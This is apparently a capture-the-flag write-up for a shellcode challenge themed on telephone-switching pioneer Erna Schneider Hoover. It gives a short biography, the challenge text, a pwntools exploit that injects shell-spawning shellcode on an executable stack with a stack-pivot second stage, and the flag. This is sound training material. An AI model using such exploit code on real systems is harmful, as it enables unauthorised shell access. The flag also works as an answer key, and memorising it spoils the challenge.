 # Erna Schneider Hoover 

## Prompt

[Erna Schneider Hoover](https://en.wikipedia.org/wiki/Erna_Schneider_Hoover) (born June 19, 1926) is an American mathematician notable for inventing a computerized telephone switching method which "revolutionized modern communication". It prevented system overloads by monitoring call center traffic and prioritizing tasks on phone switching systems to enable more robust service during peak calling times. At Bell Laboratories where she worked for over 32 years, Hoover was described as an important pioneer for women in the field of computer technology. - [Wikipedia Entry](https://en.wikipedia.org/wiki/Erna_Schneider_Hoover)


Chal: Get your best shellcode going for this [inventor who developed the system for handling telephone traffic overload](https://ncwit.org/article/2023-pioneer-in-tech-award-recipient-erna-schneider-hoover/).

## Solution

You can store your shellcode on the stack since its compiled with ``-z execstack``. Its 120 bytes from ``$rsp`` when your first stage shellcode starts. So just adjust rsp manually and jump into your shellcode

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)

gs = '''
break *0x0000000000401227
continue
'''


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('0.cloud.chals.io',28184)
    else:
        return process(e.path)

p = start()
p.sendline(asm(shellcraft.sh()))
pause()
p.sendline(asm('nop;nop;add rsp,120; jmp rsp; ;nop'))
p.interactive()
``` 

chctf{r3volutioniz3d_moD3rn_coMMunicat10ns}

